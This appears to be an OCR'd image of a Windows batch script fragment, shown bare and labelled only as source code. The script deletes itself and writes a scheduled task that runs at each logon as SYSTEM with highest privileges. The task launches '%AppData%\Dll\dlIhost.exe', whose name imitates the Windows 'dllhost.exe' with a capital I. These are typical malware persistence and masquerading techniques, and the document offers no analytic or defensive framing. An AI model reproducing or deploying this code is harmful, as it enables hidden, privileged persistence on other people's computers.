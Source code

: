 ```bash
DEL /F /Q /A %0 %NUL%
EXIT

:exportXML
echo ^<?xml version="1.0" encoding="UTF-16"?^> > UpdateTask.xml
echo ^<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"^> >> UpdateTask.xml
echo   ^<Triggers^> >> UpdateTask.xml
echo     ^<LogonTrigger^> >> UpdateTask.xml
echo       ^<Enabled^>true^</Enabled^> >> UpdateTask.xml
echo     ^</LogonTrigger^> >> UpdateTask.xml
echo   ^</Triggers^> >> UpdateTask.xml
echo   ^<Principals^> >> UpdateTask.xml
echo     ^<Principal id="Author"^> >> UpdateTask.xml
echo       ^<UserId^>S-1-5-18^</UserId^> >> UpdateTask.xml
echo       ^<RunLevel^>HighestAvailable^</RunLevel^> >> UpdateTask.xml
echo     ^</Principal^> >> UpdateTask.xml
echo   ^</Principals^> >> UpdateTask.xml
echo   ^<Settings^> >> UpdateTask.xml
echo     ^<MultipleInstancesPolicy^>IgnoreNew^</MultipleInstancesPolicy^> >> UpdateTask.xml
echo     ^<DisallowStartIfOnBatteries^>false^</DisallowStartIfOnBatteries^> >> UpdateTask.xml
echo     ^<StopIfGoingOnBatteries^>false^</StopIfGoingOnBatteries^> >> UpdateTask.xml
echo     ^<AllowHardTerminate^>false^</AllowHardTerminate^> >> UpdateTask.xml
echo     ^<StartWhenAvailable^>true^</StartWhenAvailable^> >> UpdateTask.xml
echo     ^<RunOnlyIfNetworkAvailable^>true^</RunOnlyIfNetworkAvailable^> >> UpdateTask.xml
echo     ^<IdleSettings^> >> UpdateTask.xml
echo       ^<StopOnIdleEnd^>false^</StopOnIdleEnd^> >> UpdateTask.xml
echo       ^<RestartOnIdle^>false^</RestartOnIdle^> >> UpdateTask.xml
echo     ^</IdleSettings^> >> UpdateTask.xml
echo     ^<AllowStartOnDemand^>true^</AllowStartOnDemand^> >> UpdateTask.xml
echo     ^<Enabled^>true^</Enabled^> >> UpdateTask.xml
echo     ^<Hidden^>false^</Hidden^> >> UpdateTask.xml
echo     ^<RunOnlyIfIdle^>false^</RunOnlyIfIdle^> >> UpdateTask.xml
echo     ^<WakeToRun^>false^</WakeToRun^> >> UpdateTask.xml
echo     ^<ExecutionTimeLimit^>PT0S^</ExecutionTimeLimit^> >> UpdateTask.xml
echo     ^<Priority^>7^</Priority^> >> UpdateTask.xml
echo     ^<RestartOnFailure^> >> UpdateTask.xml
echo       ^<Interval^>PT30M^</Interval^> >> UpdateTask.xml
echo       ^<Count^>3^</Count^> >> UpdateTask.xml
echo     ^</RestartOnFailure^> >> UpdateTask.xml
echo   ^</Settings^> >> UpdateTask.xml
echo   ^<Actions Context="Author"^> >> UpdateTask.xml
echo     ^<Exec^> >> UpdateTask.xml
echo       ^<Command^>%AppData%\Dll\dlIhost.exe^</Command^> >> UpdateTask.xml
echo     ^</Exec^> >> UpdateTask.xml
echo   ^</Actions^> >> UpdateTask.xml
echo ^</Task^> >> UpdateTask.xml
exit/b

```
